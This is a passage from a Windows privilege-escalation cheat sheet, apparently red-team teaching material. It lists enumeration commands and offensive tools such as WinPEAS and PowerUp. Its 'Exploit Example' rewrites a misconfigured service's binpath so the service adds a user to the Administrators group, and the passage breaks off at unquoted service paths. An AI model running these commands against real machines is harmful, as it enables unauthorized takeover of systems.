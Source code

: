 #### 🧰 Privilege Checks

```powershell
whoami /priv
net user
net localgroup administrators
```

#### ⚙️ Service Enumeration

```powershell
sc queryex type=service
wmic service get name,displayname,pathname,startmode
```

#### 🧠 Automated Tools

| Tool             | Purpose                                       |
| ---------------- | --------------------------------------------- |
| **WinPEAS**      | Automated Windows PrivEsc enumeration.        |
| **Seatbelt.exe** | Red Team enumeration and privilege checks.    |
| **PowerUp.ps1**  | PowerShell-based privilege escalation checks. |
| **SharpUp**      | C# enumeration for Windows PrivEsc.           |

***

### III. ⚙️ Common Privilege Escalation Vectors

***

#### 1. 🧩 Misconfigured Services

Services that run as **SYSTEM** but can be **modified by normal users** = instant escalation.

**🔍 Find vulnerable services**

```powershell
wmic service get name,displayname,pathname,startmode
sc qc <servicename>
```

**🔓 Exploit Example**

```powershell
sc config VulnService binpath= "C:\Windows\System32\cmd.exe /c net localgroup administrators user /add"
net start VulnService
```

_Adds your user to the Administrators group._

***

#### 2. ⚙️ Unquoted Service Paths
